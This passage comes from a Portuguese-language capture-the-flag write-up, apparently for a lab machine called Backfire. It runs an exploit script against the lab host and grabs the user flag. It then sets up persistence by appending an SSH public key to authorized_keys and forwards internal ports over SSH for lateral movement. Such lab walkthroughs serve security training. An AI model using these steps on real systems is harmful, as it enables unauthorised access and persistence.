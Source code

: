 E então podemos executar nosso exploit. o `ip` e a `port` devem ser os que estão no `Teamserver{...}`. E o `target` deve ser o `ip` da máquina.
```
python3 ./exploit.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056
```
![[Pasted image 20250325092251.png]]
**Entramos!**

Podemos então pegar a flag de usuário.
![[Pasted image 20250325104219.png]]
***
# Permanência
Há um script que nos desconecta após um tempo, então devemos achar um jeito de nos conectar de forma estável. O mais comum é colocarmos nossa `public_key` no arquivo `~/.ssh/authorized_keys`, que é o que vamos fazer.

Na nossa máquina geramos uma nova chave.
```sh
ssh-keygen -t ed25519 -b 2048 -f backfire.key
```

E então podemos colocar nossa chave pública no alvo.
```sh
echo "<YOUR_PUBLIC_KEY>"  >> ~/.ssh/authorized_keys
```

E agora fazer conexão via ``ssh``.
```sh
ssh ilya@10.10.11.49 -i ./backfire.key
```
![[Pasted image 20250325092543.png]]
***
# Lateral Movement
Ao tentar executar `sudo -l`, é exigido uma senha, tentei as dos arquivos de configuração, mas não é nenhuma delas.
```
sudo -l
```
![[Pasted image 20250325093443.png]]

Então listei as portas internas que estavam sendo escutadas.
```
netstat -ntlp
```
![[Pasted image 20250325093647.png]]

Há duas portas que não temos acesso do nosso host, `7096` e `5000`. Então podemos fazer ``Port Forward`` para essas duas portas para olharmos.
```sh
ssh ilya@10.10.11.49 -i ./backfire.key -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000
```
